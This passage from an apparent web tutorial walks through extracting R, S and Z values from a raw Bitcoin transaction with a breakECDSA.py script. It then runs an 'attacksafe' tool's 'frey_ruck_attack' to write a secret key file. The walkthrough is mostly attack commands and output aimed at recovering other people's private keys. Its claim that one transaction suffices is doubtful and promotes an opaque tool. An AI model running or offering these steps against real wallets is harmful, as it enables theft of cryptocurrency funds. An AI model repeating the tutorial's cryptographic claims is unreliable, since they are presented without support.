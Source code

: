 

<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001994710097c3901265cc9a6d9efb9d1d3135ef86b627e345e10590455d8c532b9150000006b483045022062786f4af117771202ba326b468b074cf34946bc3a6605bf1cb4ebd832438143022100b0f6a7a99e2fa826507b7645f1c0d67213db699b2c2bb3df438b820e4c53a75a01210205ea35089d57f0282fab836217e5a702d8fa528cef078d60f523fec2ca9c2f50ffffffff010000000000000000046a02445300000000
</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-65-1024x256.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-1020"></figure>



<pre class="wp-block-code"><code>R = 0x62786f4af117771202ba326b468b074cf34946bc3a6605bf1cb4ebd832438143
S = 0xb0f6a7a99e2fa826507b7645f1c0d67213db699b2c2bb3df438b820e4c53a75a
Z = 0xd423dca052d4c5b84cf9b847a0fb9ad192cb131da70e6b3770e6444e4b8e06d0</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001994710097c3901265cc9a6d9efb9d1d3135ef86b627e345e10590455d8c532b9150000006b483045022062786f4af117771202ba326b468b074cf34946bc3a6605bf1cb4ebd832438143022100b0f6a7a99e2fa826507b7645f1c0d67213db699b2c2bb3df438b820e4c53a75a01210205ea35089d57f0282fab836217e5a702d8fa528cef078d60f523fec2ca9c2f50ffffffff010000000000000000046a02445300000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool frey_ruck_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-66-1024x306.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-1022"></figure>



<p>We launched this attack from&nbsp;<code>-tool frey_ruck_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>
